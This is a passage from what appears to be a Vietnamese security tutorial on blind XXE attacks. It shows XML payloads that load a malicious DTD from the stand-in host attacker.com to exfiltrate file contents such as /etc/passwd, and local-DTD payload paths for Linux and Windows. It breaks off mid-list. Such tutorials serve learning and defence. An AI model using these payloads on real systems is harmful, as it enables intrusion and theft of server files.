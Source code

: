     • Gọi tham chiếu entity "%eval" chứa định nghĩa entity "exfiltrate"

    • Gọi tham chiếu entity "%exfiltrate"


**!!!Lưu ý:**

    • "&#x25;" là định dạng HTML encode của kí tự "%" do kí tự "%" có thể khiến parser hiểu nhầm syntax

    • Các định nghĩa parameter cần được gọi tham chiếu mới có thể hoạt động.

+Ví dụ tệp DTD này được deploy tại URL public:

```http://attacker.com/malicious.dtd```

  - Cuối cùng, attacker định nghĩa 1 parameter entity, gửi payload tới server chứa lỗ hổng Blind XXE:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://attacker.com/malicious.dtd"> %xxe;]>
```

  - Server truy cập tới file DTD được chỉ định trong server attacker và thực hiện các bước được khai báo.

==>Server attacker sẽ nhận được nội dung tệp tin mong muốn.


- **NOTE**: Kỹ thuật này có thể không hoạt động với một số content trong các file (Như ký tự xuống dòng trong /etc/passwd). Một trong các cách khắc phục là sử dụng FTP protocol thay vì HTTP.


## File Local DTD path

- Việc cho phép hệ thống tìm nạp các file external DTD thực sự nguy hiểm do attacker có thể tự tạo external DTD file tùy ý. 

==> Hiện nay nhiều hệ thống đã thực hiện chặn truy cập external DTD. Tuy nhiên, attacker vẫn có thể lợi dụng việc kích hoạt các dòng thông báo lỗi hiển thị giá trị input từ user.

- Đối với mỗi hệ thống được sử dụng, các tệp local DTD thường được đặt ở các path mặc định khác nhau. Các payload sau tương ứng với mỗi hệ thống:

- Linux System:

```bash
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa 'Your DTD code'>
%local_dtd;
```

- Windows System:

```bash
<!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
<!ENTITY % SuperClass '>Your DTD code<!ENTITY test "test"'>
%local_dtd;
```

- Cisco WebEx:
